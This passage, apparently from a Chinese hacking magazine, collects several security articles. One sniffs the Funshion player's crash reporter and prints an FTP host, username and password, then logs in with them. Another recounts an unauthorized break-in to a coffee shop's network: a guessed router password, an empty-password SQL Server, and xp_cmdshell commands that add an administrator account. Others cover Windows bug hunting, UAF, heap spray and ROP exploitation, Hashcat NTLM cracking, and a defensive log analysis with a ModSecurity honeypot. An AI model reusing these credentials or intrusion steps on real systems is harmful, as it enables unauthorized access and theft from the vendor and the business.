风行是一款集在线播放和下载影视（电影、电视）节目的视频播放软件，具有风行网首创的“边下边看”特点。最新版的风行电影 2.6，以新颖的交互界面、超凡的下载速度以及海量的影视节目，让您畅快淋漓地享受高品质的影视服务。

以上是对风行软件的简单介绍，下面我们就看看风行软件的安全问题。打开程序目录，看到一些可执行文件，有一个应用程序叫 CrashReport.exe，双击打开，如图 1 所示。


图 1

可以看到是一个 bug 报告程序，猜想是将程序错误信息提交到指定的位置，帮助程序开发者修正错误的。发送数据典型的有几种方式，如 HTTP、FTP、MAIL 等。这里先试试 HTTP 看能否抓到敏感数据，用到一个叫做“河马 Web 密码嗅探器”的软件，主界面如图 2 所示。


图 2

目的端口设置为：80，然后点击“开始嗅探”。

在 CrashReport.exe 的联系方式里填写 http://www.isafe.cc 和 http://www.baohu3.com，点击“发送错误报告”，等了一会，没有嗅探到任何数据。下面把“河马 Web 密码嗅探器”的端口设置为 21，也就是 FTP 协议的端口。在 CrashReport.exe 联系方式里填写 http://www.isafe.cc 和 http://www.baohu3.com，点击“发送错误报告”，等了一会，截获了用户名和密码，如图 3 所示。


图 3

然后试试密码是否有效。打开 cuteFtp 软件，填写主机：222.35.250.56，用户名：FunshionSoftC，密码：ZhiMaKaiMenC，成功登录，如图 4 所示。


图 4

本次渗透主要利用了 bug 报告的方式。一般都会使用如 HTTP、FTP、MAIL 等，这里一个一个试，结果就成功了。

### 远程 Hack 猫屎咖啡厅内网

文/图 light 白细胞

天气雾蒙蒙的，睡眼惺忪的 light 教授悠哉悠哉走进公司附近的猫屎咖啡，慢条斯理地点了一杯卡布奇诺。

坐下来，打开手机，微信里好多土豪在群里发红包，可是我一个都没抢到。习惯性地打开 dsploit 扫描一下咖啡厅的 wifi，如图 1 所示，伴着一口香浓的咖啡下肚，顿时来了精神。


图 1

首先打开浏览器连上路由，试了几遍常用的弱口令发现都不成功。无意识地扫了一眼桌上的小票，“为什么不试试最下面的电话号码呢？”，回车之后，熟悉的画面出现在眼前，如图 2 所示。


图 2

“DNS 欺骗、ARP 投毒，上上妹子们的微博、淘宝这些从小玩到大的把戏已经太无聊，难道就没有什么更好玩的吗？”，抬头看了看收银台妹子前面的 PC，瞄了一眼网络中的设备列表，迅速定位了一台目标，扫描端口后确认了自己的推测，如图 3 所示。


图 3

这台装了 SQL Server 的 PC 就是收银系统的主机无疑了。此时咖啡只剩下一底，抬手看了看手腕上的山寨 iwatch：“时间不早，该回去工作了”，于是打开路由的远程管理，如图 4 所示，一口喝完杯里的咖啡，离场。


图 4

做完两套方案，闲下来时想起猫屎的路由，试试连接，成功登录！如图 5 所示。


图 5

找到之前定位的收银主机，怎么连接？路由器远程刷个 dd-wrt？后来选择了另外一个方法：把目标主机开放的有价值的端口都映射出来试试。SQL Server 数据库？必须试试！如图 6 所示。


图 6

映射出来，上 navicat，测试了几个弱密码不行，最后空密码连上了，如图 7 所示。


图 7

看看都有什么好东西，如图 8 和图 9 所示。


图 8


图 9

Windows XP + Server2000，我们还能做到更多，比如说利用 cmdshell 添加用户开远程，装个远控偷窥咖啡厅营业的妹子。

收银主机系统信息如图 10 所示。

```sql
exec master..xp_fixeddrives
```

| drive | MB 可用空间 |
|---|---:|
| C | 99069 |
| D | 117491 |
| E | 119076 |
| F | 121434 |

图 10

之后创建管理员账号，在路由器上把内网的 3389 映射出来，如图 11、图 12、图 13 所示。

```sql
exec master..xp_cmdshell 'net user light ... /add';
```

```sql
exec master..xp_cmdshell 'net localgroup administrators light /add'
```

图 11


图 12


图 13

最后一刻，正义的心还是让 light 教授没有继续下去（为啥？话说你知道 XP 系统默认情况下只能同时一人登录系统不？），以上漏洞已通知咖啡店店长修复。

### Windows 系统漏洞挖掘技术

文/图 佚名

不知不觉已经 2015 了。高中时代那时对网络非常感兴趣，那时我上网都是玩黑客工具和学习黑客电脑知识，游戏那时候玩梦幻也是一边玩一边扫描肉鸡，后来高中毕业了连游戏也不玩，现在只留下对 Windows 的兴趣了。本人一路走过来已经在这条技术路上 10 年了。现在我不知道是不是以后会不会有技术上突破，我想要是再不突破，可能这辈子技术就这样了。没办法，人无完人。

现在我来分享一下我这走过来的经验，对那些还处在迷茫中的新手做一个指明灯。本人对漏洞挖掘感兴趣多一点，病毒我还是不是很感兴趣去写与研究。首先我分别来谈一下 Windows 系统漏洞挖掘需要的准备知识、漏洞从何入手挖掘、如何更快地挖掘漏洞。

首先来谈 Windows 系统漏洞挖掘需要的准备知识。很多人一看网上的漏洞代码分析和攻击原理就头大，不说你们，我曾经也迷茫过，感觉用别人的工具进行攻击没什么分量，当然除非你真的是去搞非法活动（这里并不是说提倡，一切后果自己负责）。Windows 系统有用户层和内核层。什么是用户层呢？简单地说就是系统的外部构造，而内核层就是系统的核心部分，上面被用户层包裹的意思。因为 Windows 公开了用户层的知识层面，而不公开内核层的代码层面，导致不得不用反汇编知识去翻译成 C 或 C++ 代码来分析。所以要是想学习漏洞挖掘，首先必须熟悉 C、C++、SDK、驱动、反汇编，还有 Windows 底层构造，特别是对反汇编要求特别高，因为要分析 Windows 的未公开系统文件；内核构造也是要求非常熟悉的（这个可以慢慢积累）。有些漏洞涉及网络，当然网络知识掌握得越多发现的越多（这里不是指 PHP、ASP.NET 等网络知识，因为想到一部分一部分地去进行分析介绍思路会更加清晰，这里的网络知识是指 SDK 级网络的还有驱动级网络的知识）。

现在来谈谈如何入手挖掘。缓冲区溢出漏洞是 Windows 经常出现的漏洞，可以说是 Windows 内部人员最容易忽略的错误，一不小心思考就会引发漏洞，所以要思考这个原理来进行对 Windows 何处可能存在溢出的漏洞进行分析。下面介绍挖掘缓冲区溢出漏洞的详细方法：Windows 每个文件都是系统运行的关键，还有各种系统函数等内部代码执行都会申请缓冲区。那么问题来了，这个申请的缓冲区是不是存在缺陷？来做个压力测试法，首先反编译过来，然后找到用到的缓冲区进行测试，自己测试一下写入大于缓冲区容纳范围的字节，然后观看堆栈变化情况，或者直接分析出缓冲区会造成溢出的情况。这种方法的确高效，而且成功性非常高。

其次是要对那些可能造成更改系统权限或者对系统安全造成威胁的地方进行着手，因为你不能挖掘出来的漏洞对系统安全一点都不造成影响。要有敏锐的眼光，用攻击者的角度测试系统模块，想想攻击者可能会通过某种方式执行危害或者进行提权。再者是对现公开的已知漏洞模式去寻找，比如拒绝服务攻击现在有地方已经发现了，那可能其他地方也存在这个缺陷。现公开的系统漏洞产生原因，其他相关部位同样也可能存在，看看微软发布的漏洞补丁就知道很多系统部位都产生相同的漏洞缺陷，从而再地被发现。那些研究员我想他们是逐个分析每个系统函数、各种调用、模块等地方从而得到 bug 吧，就算没有 bug 也要从头到尾而且用一种假设攻击的思路去分析，因为他们的工作就是测试系统。所以说业余的远远发现得比那种以这种方式工作的研究员要少，因为谁也不可能拿时间来浪费赚钱的机会。

最后来谈谈如何更快地挖掘漏洞。首先你知识储备要好，要精通，知识越扎实你越容易发现别人发现不了的地方。其二是你对公开漏洞的分析和推测了，一般都会感到一个漏洞和未发现的漏洞有一定联系，不是吗？所以要善于推测。

写在最后的话：走过这么久的路，不要因为自己技术不如别人而感到什么，因为这不值得你去想这个问题。一个漏洞的挖掘需要用反汇编分析系统内部文件，这个过程一定是漫长而艰难的，没有熟练的反汇编是不可能分析出来的。本人目前就是反汇编特差，因为觉得反汇编实在是太难看，一句一段地分析人家，简直要吐血。当然熟练的可以一目了然，而且分析后不一定发现什么，因为 Windows 内部人员不可能都是白拿工资的。所以一个未知漏洞的发现是很难的和很费时间的，有时候完全靠运气这种东西。要是感到无奈建议转行。好了，本文就介绍到这里了，本人知识有限，技术也不是顶级，所以有错误之处望指出。

### 漏洞攻防中的 Blitzkrieg

文/图 木羊

今年是二战胜利 70 周年，国家特定选了一天放假以示纪念。想到二战，就一定免不了想到 Blitzkrieg。这个词是英语 Lightning 的德语翻译，中文意思是闪电战、闪击战或者电击战。二战的德军装甲部队，就是依靠 Blitzkrieg 横扫了西欧平原，东欧平原也扫了一半。

二战中的 Blitzkrieg，自有军事和历史学家去研究。不过既然战争是一种攻防对抗，安全也是一种攻防对抗，那么战争中用得到的 Blitzkrieg，安全里是不是也能借鉴这种思想呢？

为了防止纸上谈兵，在回答之前，我们先来了解 Blitzkrieg 究竟是一种怎样的思想。被誉为 Blitzkrieg 之父的德国人古德里安出的回忆录里谈到对 Blitzkrieg 的理解，大致可以归纳为“集中使用装甲部队突袭敌军防线，突破防线后直插后方的要害部位，使敌军整个防御体系瘫痪”。Blitzkrieg 之所以叫闪电战，一个正是因为“快”如闪电，天下武功，唯快不破，另一个则是因为被击中了会像触电一般浑身瘫痪而丧失抵抗能力。

现在市面很多教授方法的书，脑洞开得很大，譬如说“刘备教你企业管理”，将历史上或者小说中的刘备说过的话，硬套进现代企业管理的框架里，这就出了本噱头很大的书。但我认为，Blitzkrieg 的这两个因素，是不太好硬套进安全里的，毕竟老祖宗创造“削足适履”本意不是用来难为高考学生的。Blitzkrieg 首先强调“集中”和“突袭”，在军事中自然是符合“集中兵力”和“出其不意”的战争哲学，虽然在某些层面，譬如说对资源的集中使用和针对人性弱点的攻击，在安全上也能勉强找到交集，要扯一本到两百多页的快餐书倒也可以，但圈子就绕得有些远了。这里我要谈的，是 Blitzkrieg 的第二点，也就是突破防线后瘫痪整个防御体系。这一点，在安全攻防，特别是漏洞利用中使用得非常多。

前面我们聊过几篇文章的 UAF，UAF 是一种时下很潮的漏洞类型，我认为成因本质是野指针，这一点，反对的同学不少，毕竟情感上确实不好接受。我们做漏洞研究的，很容易就会形成一种观感，觉得“漏洞”是一种具有完全行为能力的独立个体，和其它代码以及 BUG 是完全不同的。可是，真的如此吗？

现在安全火了，满世界都是安全攻防安全攻防，各种漏洞漫天飞，可有没有哪篇文章愿意平心静气坐下来，谈谈安全到底攻什么，又防什么呢？防黑客吗，就是不让那些成天关在黑屋子里对着五六个亮着的屏幕噼里啪啦敲键盘的宅男偷看我们的 QQ 密码？现在新闻也常常报道安全的消息，譬如说某某又泄露了多少用户数据，谁谁又被盗刷了一百多万人民币，但云云种种背后，到底攻防的是什么呢？

是权限。具体一点，是访问和使用的权限。计算机的作用是资源管理，那计算机安全就是资源访问和使用的权限；互联网的作用是信息传递，那互联网安全就是信息访问和使用的权限。要攻的，就是取得权限；要防的，则是防止取得权限。至于漏洞，不过是黑客利用系统中存在的一些问题、BUG，或者其它乱七八糟的“特色功能”，来取得权限的手段而已。漏洞从来只是手段，而不是目的。漏洞的定义太广了，只要能用来取得权限的任何东西都可以称之为漏洞。所以可以预见，眼下遍地开花的漏洞库一定会出现白帽和厂家为了是否是漏洞以及漏洞的安全威胁等级撕逼，而且将一直撕到地老天荒：因为这里有一个悖论，厂家只认亲眼看到能偷到东西的权限，而白帽却只能站在门外大喊这个权限可以偷到东西。

回到 Blitzkrieg。现在假定我们已经找到了一个漏洞，譬如说 UAF 类型，作为白帽工作到此就算结束了，可是对于写 exploit 大概还有十万八千里的距离。UAF 本质是野指针，理论上野指针是可以读写指向的地址的，但我们找到的这枚 UAF 到底是可读还是可写抑或是可读可写，取决于我们对这枚指针的使用权限。某大牛曾告诉我，UAF 类型的漏洞一年能刷上百个，写居多读居少，可读可写的大概比中彩票的几率要高一点点。统计的可靠性我就不做担保了，不过有一点是绝对的，那就是我找到的这枚 UAF 能够提供的权限，距离想要的权限通常还有十万八千里。

那怎么办呢？这里就可以用到 Blitzkrieg 了，突破一点，也就是取得一点权限，然后利用这一点权限，瘫痪整套防御体系。

还是以 UAF 为例子。假设我们拿到的这枚是最大众脸的可写型 UAF 漏洞，野指针的可写性不难想象，根本就是一根筋，指向哪块内存地址就只能写哪块内存地址，可写的范围与指针类型有关。这个权限太小了，可写的范围太窄，又不能读，我是厂家肯定不会为这种小权限买单。所以要“提权”，和渗透测试那种狭义的提权有点像，是要扩大一点权限。

在 IE6 下，我们通常通过写 JS 的字符串对象的数据结构来提权。这个版本的 JS 的字符串类型，数据结构十分简单，首先是占 32 字节的对象头，接着是占 4 字节的变量，用来保存字符串长度，这个变量很重要，姑且命名为 strlen，最后就是字符串内容。在 C 语言中，如果输出一段字符串，只有读取到 00 才停止，IE 的作者显然觉得这种规定太没有节操了，如果末尾的 00 被抹掉，那岂不是可以一直读下去，拥有整块内存的可读权限了（当然是理论上，实际内存里是非常多 00 的，也就是实际只能输出到下一次碰到 00 为止）？于是加了一条限制，就是必须小于 strlen。但这条约束效力非常微弱，现在我们既然有了枚可写的 UAF 漏洞，只要将这个 strlen 改成很大，就拥有了以字符串地址为开头，偏移 strlen 大小的整块内存的可读权限。

可能有同学会问，既然指针的可写范围极小，恰好写到内存（具体是堆）中某个字符串结构的概率岂不是随便拍一巴掌正巧打中蚊子还低？确实，单个命中的概率极低，因此 SkyLined 提出 Heap Spray 技术，中文通常译为堆喷射技术，来解决这一问题。Heap Spray 的论文有好几千字，不过中心思想很简单，就是大量申请字符串对象，算是对概率论中大数定理的一种应用。这就好比让空气中飞满了蚊子，那么随便一巴掌也就很可能打中一只了。

Heap Spray 已经提出有十年了，IE 自然已经推出不少新的机制来防御，于是后来发展出更为精准、可以绕过 cookie 的堆风水，以及 TK 教主半年前公开的价值十万美金的点穴攻击。方式各有不同，但走的都是 Blitzkrieg 的套路，也即先突破一点，用某个漏洞获取某些局部的小权限，然后通过攻击某个敏感的数据结构来提权，最终瘫痪 IE 的整套防御体系。当然了，Blitzkrieg 的思路不仅限于 UAF，也不仅限于 IE。譬如对付 DEP（Data Execution Prevention）构成的防御体系，流行的思路也是先利用没有经过 DEP 保护的小点构造 ROP（Return Oriented Programming）链。这玩意名字很玄乎，至今好像也没个大家都接受的中文翻译，但其实就是一条用 ret 指令串起来的执行流。执行流中的这些指令无论哪个单拎出来都特别人畜无害，但组合起来却威力无穷，譬如拼成调用 VirtualProtect 的指令流，或者执行 shell 命令，都可以达到关掉 DEP，从而使整套防御体系形同虚设的目的。

### 利用 Hashcat 破解 Windows 系统账号密码

文/图 Simeon

笔者最近对 oclHashcat 工具破解密码进行了研究，偶有所得，因此撰文跟大家一起分享，本次破解对象选择破解 Windows 7 用户密码。

oclHashcat 号称世界上最快的密码破解工具，世界上第一个和唯一的基于 GPGPU 规则引擎，免费多 GPU（高达 128 个 GPU），多哈希，多操作系统（Linux 和 Windows 本地二进制文件），多平台（OpenCL 和 CUDA 支持），多算法，资源利用率低，基于字典攻击，支持分布式破解等等。oclHashcat for AMD 下载地址：http://hashcat.net/files/oclHashcat-1.31.7z，oclHashcat for NVidia 下载地址：http://hashcat.net/files/cudaHashcat-1.31.7z。oclHashcat 系列软件在硬件上支持使用 CPU、NVIDIA GPU、ATI GPU 来进行密码破解。在操作系统上支持 Windows、Linux 平台，并且需要安装官方指定版本的显卡驱动程序，如果驱动程序版本不对，可能导致程序无法运行。NV 用户 GPU 破解驱动需要 ForceWare 331.67 以及更高版本，AMD 用户则需要 Catalyst 14.9 以及更高版本，可以通过 Catalyst 自动侦测和下载检测工具来检测系统应该下载哪个版本。

#### 准备工作

- kali linux 操作系统或者虚拟机
- windows 7 操作系统或者虚拟机
- 准备字典，可以自己生成字典工具，也可以从互联网获取字典。
- 在 Windows 7 中新增一个用户 antian365，密码为 password。在单击“开始”-“运行”中输入“cmd”并按“Shift+Ctrl+Enter”组合键，输入命令“net user antian365 password /add”。或者以管理员权限启动“cmd.exe”程序也可，执行成功后如图 1 所示。测试完毕后可以通过命令删除该账号“net user antian365 /del”。
- 下载 saminside。官方网站目前已经停止 saminside 软件的开发了，可以到华军软件园下载。


## 获取并整理密码 hash 值

### 1）获取操作系统 hash 值

获取 Windows 7 操作系统的 hash 值有多个软件，比如 wce、mimikatz、cain 以及 saminside 等。在 Windows Vista 以及以上版本都会有 UAC 权限控制机制。UAC（User Account Control，用户账户控制）是微软为提高系统安全而在 Windows Vista 中引入的新技术，它要求用户在执行可能会影响计算机运行的操作，或执行更改影响其他用户的设置的操作之前，提供权限或管理员密码。通过在这些操作启动前对其进行验证，UAC 可以帮助防止恶意软件和间谍软件在未经许可的情况下在计算机上进行安装或对计算机进行更改。因此获取密码的工具都需要以管理员身份运行，选择 saminside.exe 程序，右键单击在弹出的菜单中选择“以管理员身份运行”，然后在 saminside 程序主界面中从左往右选择第三个图标，下拉菜单第二个选项（Import local user using Scheduler）来获取密码，如图 2 所示，即可获取本机所有账号的密码 hash 值等信息。


图 2 获取密码 hash 值

### 2）整理 hash 值

在 saminside 中可以导出所有账号的 hash 值，也可以复制单个账号的 hash 值。单击“File”菜单中的“导出用户到 pwdump 文件”即可导出获取的 hash 值，也可以选择 hash，右键单击“复制”-“NT hash”获取 NT hash 值。对于 Windows Vista 以上操作系统，即使是普通的密码也以“AAD3B”开头的一串字符，这个值目前在“ophcrack”等工具中无法进行破解，在 saminside 中会显示为一串“0”字符。将 NT hash 值整理到一个文件中，并命名为 win2.hash，如图 3 所示。


图 3 整理需要破解的 hash 值

## 破解 hash 值

将准备好的字典 ptemp.txt、需要破解的 hash 值文件 win2.hash 复制到 oclHashcat32 程序所在文件夹下，执行以下命令进行破解：

```bash
oclHashcat32 -m 1000 -a 0 -o winpass1.txt --remove win2.hash ptemp.txt
```

参数说明：

- “-m 1000” 表示破解密码类型为 “NTLM”；
- “-a 0” 表示采用字典破解；
- “-o” 将破解后的结果输出到 winpass1.txt；
- “--remove win2.hash” 表示将移除破解成功的 hash；
- “ptemp.txt” 为密码字典文件。

如果密码字典较大，可能会显示 “[s]tatus [p]ause [r]esume [b]ypass [q]uit =>”，键盘输入 “s” 显示破解状态，输入 “p” 暂停破解，输入 “r” 继续破解，输入 “b” 表示忽略破解，输入 “q” 表示退出。所有成功破解的结果都会自动保存在 “oclHashcat.pot” 文件中。破解结束会显示如图 4 所示的信息。


图 4 显示破解信息

#### 查看破解结果

使用 “type winpass1.txt” 命令查看破解结果，如图 5 所示，显示该账号的密码为 “password”。


图 5 查看密码破解结果

#### 结束语

oclHashcat 功能强大，基本上能够破解目前市面上常见的密码加密算法，比如 Discuz! 论坛密码算法 md5(md5($pass).$salt)，Linux sha512 加密、Linux 下 MD5 加密均可以破解。

（完）

### WAF 另类应用之蜜罐诱捕黑客

文/图 xysky

通过 IPS 我们发现，每天都有针对互联网网站扫描的事件出现，大部分都是工具的自动化探测行为。安全人员想从这些安全事件发现真正的恶意攻击行为，是比较困难的。有没有办法能精确地发现有人在恶意攻击？

一种方法是提取各扫描器的特征指纹，然后进行过滤；另一种方法就是我下面要讲的，用“蜜罐”的思路来诱捕黑客。在开始前我们先分析一段真实的入侵案例。

#### 真实攻击案例日志分析

有一天我们部署在某互联网 DMZ 区域的 IPS 告警，值班同事看到 SOC 事件后启动安全事件响应流程，很快就定位了漏洞原因并阻断了该攻击者，但这次入侵事件具有典型的代表性，我们来简单分析一下。

##### 1）春节前的踩点

```text
64.62.X.Y - - [01/Feb/2015:16:29:19 +0800] "GET / HTTP/1.1" 302 3
64.62.X.Y - - [01/Feb/2015:16:29:19 +0800] "GET /index.php?m=index&a=login HTTP/1.1" 200 1345
64.62.X.Y - - [01/Feb/2015:16:29:20 +0800] "GET /static/css/admin/assets/logo.png HTTP/1.1" 200 21144
64.62.X.Y - - [01/Feb/2015:16:29:20 +0800] "GET /static/css/admin/login/login.css HTTP/1.1" 200 1979
64.62.X.Y - - [01/Feb/2015:16:29:20 +0800] "GET /static/css/admin/assets/loginbg.png HTTP/1.1" 200 2831
64.62.X.Y - - [01/Feb/2015:16:29:21 +0800] "GET /static/css/admin/assets/input.png HTTP/1.1" 200 2817
64.62.X.Y - - [01/Feb/2015:16:29:21 +0800] "GET /static/css/admin/assets/rep1.png HTTP/1.1" 200 2825
64.62.X.Y - - [01/Feb/2015:16:29:21 +0800] "GET /favicon.ico HTTP/1.1" 404 1075
23.236.79.30 - - [02/Feb/2015:03:23:22 +0800] "GET / HTTP/1.0" 302 3
64.62.X.Y - - [02/Feb/2015:10:05:16 +0800] "GET / HTTP/1.1" 302 3
64.62.X.Y - - [02/Feb/2015:10:05:16 +0800] "GET /index.php?m=index&a=login HTTP/1.1" 200 1345
64.62.X.Y - - [02/Feb/2015:10:31:20 +0800] "GET /index.php?m=index&a=login HTTP/1.1" 200 1345
64.62.X.Y - - [02/Feb/2015:10:31:38 +0800] "GET /phpsso HTTP/1.1" 404 1075
64.62.X.Y - - [02/Feb/2015:10:31:48 +0800] "GET /phpmyadmin HTTP/1.1" 403 1222
64.62.X.Y - - [02/Feb/2015:10:31:53 +0800] "GET /Phpmyadmin HTTP/1.1" 403 1222
64.62.X.Y - - [02/Feb/2015:10:31:56 +0800] "GET / HTTP/1.1" 302 3
64.62.X.Y - - [02/Feb/2015:10:31:57 +0800] "GET /index.php?m=index&a=login HTTP/1.1" 200 1345
```

从上面的日志可以看出，2015.2.1 号这个黑客就发现了这个 8081 端口，尝试访问了一次，发现是个登录入口；2015.2.2 号尝试手工登录了几次，失败，尝试手工访问 /phpsso、/phpmyadmin，失败，后面就暂时放弃了。一直到春节上班后，又继续来搞了，这次就不是手工了。基于这个时间点，我们有理由认为这个 IP 背后肯定是个中国黑客。

##### 2）扫描工具导致大量 404 请求

```text
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/wpstorecart/php/upload.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/rbxgallery/uploader.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/front-end-upload/upload.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/allwebmenus-wordpress-menu-plugin/actions.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/wp-symposium/uploadify/upload_admin_avatar.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/wp-symposium/uploadify/upload_profile_avatar.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/mailz/lists/dl.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/website-faq/website-faq-widget.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:37 +0800] "GET /wp-content/plugins/wp-automatic/inc/csv.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:38 +0800] "GET /wp-content/plugins/mailz/lists/config/config.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:38 +0800] "GET /wp-content/plugins/zingiri-web-shop/ HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:38 +0800] "GET /wp-content/plugins/jetpack/modules/sharedaddy.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:38 +0800] "GET /wp-content/plugins/adrotate/adrotate-out.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:38 +0800] "GET /wp-content/plugins/wp-glossary/ajax.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:38 +0800] "GET /VIPLogin.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:39 +0800] "GET /uctools.php HTTP/1.1" 404 1075
64.62.X.Y - - [26/Feb/2015:14:38:39 +0800] "GET /feedback_list.php HTTP/1.1" 404 1075
```

由于扫描工具产生的事件非常多，就不一一列举了，扫描工具所用的文件库还是有些效果的，猜到了一些目录。

##### 3）扫描工具猜解到部分目录及文件

```text
64.62.X.Y - - [26/Feb/2015:14:41:15 +0800] "GET /tmp/ HTTP/1.1" 200 980
64.62.X.Y - - [26/Feb/2015:14:44:43 +0800] "GET /data/ HTTP/1.1" 200 1192
```

```
64.62.X.Y -- [26/Feb/2015:15:21:33 +0800] "GET /ttt/ HTTP/1.1" 200 989
64.62.X.Y -- [26/Feb/2015:14:42:23 +0800] "GET /tmp/ HTTP/1.1" 200 982
64.62.X.Y -- [26/Feb/2015:14:42:25 +0800] "GET /tmp/runpool/ HTTP/1.1" 200 999
64.62.X.Y -- [26/Feb/2015:14:42:26 +0800] "GET /tmp/runpool/nbwx/ HTTP/1.1" 200 1642
64.62.X.Y -- [26/Feb/2015:14:42:28 +0800] "GET /tmp/runpool/nbwx/Cache/ HTTP/1.1" 200 1035
```

注意上面 tmp 目录，由于存在目录浏览漏洞，自动扫描工具也会进行请求。

##### 4）手工请求文件获得敏感信息

从这里开始，黑客开始基于扫描的结果进行手工操作了，我们将关键日志逐条分析，会发现是件很有意思的事情：

```
64.62.X.Y -- [26/Feb/2015:15:05:23 +0800] "GET /tmp/runpool/nbwx/Logs/1421895886-15_01_22.log HTTP/1.1" 200 2103549
```

我们访问 /tmp/runpool/nbwx/Logs/1421895886-15_01_22.log，结果这个日志文件第一行内容就是：[2015-01-22T10:52:19+08:00] 119.130.86.152 index.php?m=sysFeedback&a=index&menuid=347

这也就不难理解，下面这条日志了，而且注意还多了一个 `'`，是黑客手工复制到浏览器的。

```
64.62.X.Y -- [26/Feb/2015:15:05:52 +0800] "GET //index.php?m=sysFeedback&a=index&menuid=347%27 HTTP/1.1" 302 3
```

结果来了个 302 跳转，跳到登录首页了。

```
64.62.X.Y -- [26/Feb/2015:15:05:54 +0800] "GET /index.php?m=index&a=login HTTP/1.1" 200 1345
```

黑客继续看日志。

```
64.62.X.Y -- [26/Feb/2015:15:06:04 +0800] "GET /tmp/runpool/nbwx/Logs/1421895139-15_01_22.log HTTP/1.1" 200 2149193
```

黑客看到日志中包含了账号密码信息：

```
SQL: SELECT `id`,`app_id`,`username`,`name`,`email`,`role_id`,`status` FROM `ndsns_wx_admin` WHERE (`username`='zhang3') AND (`password`='69591f2c70dfe6679533d42459802eaf') LIMIT 1 [ RunTime:0.001000s ]
```

黑客这会估计在反查 MD5 密码，然后继续尝试登录

```
64.62.X.Y -- [26/Feb/2015:15:06:36 +0800] "POST /index.php?m=index&a=login HTTP/1.1" 200 1864
64.62.X.Y -- [26/Feb/2015:15:06:40 +0800] "GET /index.php?m=index&a=login HTTP/1.1" 200 1345
```

上面登录没成功，黑客于是又翻看了 16 号的日志。

```
64.62.X.Y -- [26/Feb/2015:15:06:43 +0800] "GET /tmp/runpool/nbwx/Logs/1421392766-15_01_16.log HTTP/1.1" 200 2140738
```

果然有所收获，16 号的日志里又看到另一个账号密码。

```
SQL: SELECT `id`,`app_id`,`username`,`name`,`email`,`role_id`,`status` FROM `ndsns_wx_admin` WHERE (`username`='li4') AND (`password`='fb7560f09566200e9da8a6dc74bd2080') LIMIT 1 [ RunTime:0.000000s ]
```

这回的 MD5 一下就反查出来了，再来请求登录。

```
64.62.X.Y -- [26/Feb/2015:15:07:16 +0800] "POST /index.php?m=index&a=login HTTP/1.1" 200 1864
```

登录成功，进入后台。

```
64.62.X.Y -- [26/Feb/2015:15:08:07 +0800] "GET /index.php?m=index&a=panel HTTP/1.1" 200 5456
```

接下来的故事就不再说了，后台上传漏洞得到 webshell，执行了一些系统命令查看权限、用户等信息，再然后就被我们在应急处理过程中断开了。

##### 5）入侵事件的反思

反思整个入侵过程，黑客并没用多少 NB 的技术，而我们则有些大意了。一个不重要的 DMZ 区，管理员私自开启非 80 端口的业务，我们没有引起重视，导致各种安全管控手段没有覆盖到，比如扫描器、WAF 防护等。事后我们进行了一些调整，但在调整完之后我还在思考，如何有效地从海量的扫描事件中真正找到那些真正在搞我们的人，或者我们主动点，利用“蜜罐”思路搞点陷阱？

## 用 modsecurity 搭建蜜罐诱捕黑客

ModSecurity 是个开源的 WAF，关于其介绍请自行网上搜索。因为开源而且规则可以自己定制，所以选择它来实现我们的想法。

##### 1）针对不常见端口的尝试攻击

选择一个没有对外公布的 IP（即没有 DNS 解析到此 IP），开启一个或多个非 80 的端口，是这项工作的第一步。注意这个端口的选择也是有讲究的，仔细看一下 nmap 默认扫描的端口中包含哪些，你是希望通过常规的端口扫描能让黑客发现这个端口，还是希望黑客通过全端口扫描才能发现，完全取决于你。在涉及到的防火墙（如 iptables）、负载均衡（如 F5、LVS）上发布此 IP 与相应的端口，在 apache 上配置监听相关端口并设置好虚拟站点，即添加一个 /etc/httpd/conf.d/hyweb.conf，关键内容参考如下：

```
Listen 8081
<VirtualHost *:8081>
ServerAdmin webmaster@localhost
DocumentRoot "/var/www/html/hyl"
ServerName localhost
ServerAlias localhost
ErrorLog "logs/hyl-error.log"
CustomLog "logs/hyl-access.log" common
<Directory "/var/www/html/hyl">
Options Indexes FollowSymLinks
AllowOverride None
Order allow,deny
Allow from all
</Directory>
</VirtualHost>
```

即让 apache 监听 8081 端口，并指定一些目录及日志，注意我们允许浏览目录哦。接下来我们在 modsecurity 上添加一个规则文件 honeypot_port.conf，关键内容如下：

```
SecRule SERVER_PORT "^(81|8000|8080|8081|8084|8888)$" \
"id:'999001', phase:2, t:none, log, block, msg:'WAF_Honeypot Alert: someone access the fake port.'"
```

上面的意思是当有人请求访问这些端口时，就会触发这条规则，将日志里写入相关信息，告诉管理员有人来访问蜜罐了。我们测试请求一下，会看到有 modsecurity 的日志：

```
--b3fb5601-H--
Message: Warning. Pattern match "^(81|8000|8080|8081|8888)$" at SERVER_PORT.
[file "/etc/httpd/modsecurity.d/honeypot_port.conf"] [line "19"] [id "999001"] [msg "WAF_Honeypot Alert: someone access the fake port."]
Stopwatch: 1427430048124623 286 (-- - -)
Stopwatch2: 1427430048124623 286; combined=51, p1=2, p2=47, p3=0, p4=0, p5=2, sr=0, sw=0, l=0, gc=0
Response-Body-Transformed: Dechunked
Producer: ModSecurity for Apache/2.7.3 (http://www.modsecurity.org/).
Server: Apache/2.2.15 (CentOS)
Engine-Mode: "ENABLED"
